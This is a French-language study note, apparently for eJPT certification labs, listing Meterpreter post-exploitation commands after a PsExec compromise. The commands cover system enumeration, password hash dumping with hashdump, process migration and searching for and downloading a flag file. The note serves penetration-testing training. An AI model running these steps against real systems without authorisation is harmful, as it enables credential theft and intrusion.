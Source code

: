 
## 🖥️ 5. Post-exploitation via PsExec

### Commandes Meterpreter essentielles
```bash
# Vérification accès
getuid                                 # NT AUTHORITY\SYSTEM
sysinfo                               # Informations système
getpid                                # Process ID

# Navigation système
pwd                                   # Répertoire actuel
ls                                    # Contenu répertoire
cd C:\\                               # Changer répertoire

# Shell Windows
shell                                 # Passer en shell cmd
cd /                                  # Aller à la racine (C:\)
dir                                   # Lister contenu
type flag.txt                         # Lire fichier flag
exit                                  # Retour Meterpreter
```

### Énumération système post-PsExec
```bash
# Dans session Meterpreter
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
run post/windows/gather/enum_applications
run post/windows/gather/hashdump

# Migration processus (optionnel)
ps                                    # Lister processus
migrate <pid_explorer>                # Migrer vers explorer.exe
```

### Recherche de flag eJPT
```bash
# Méthode 1 : Via shell
shell
cd /
dir
type flag.txt

# Méthode 2 : Via Meterpreter
search -f flag.txt
download C:\\flag.txt
cat flag.txt

# Méthode 3 : Recherche étendue
search -f *.txt
search -d C:\\ -f flag*
```

---
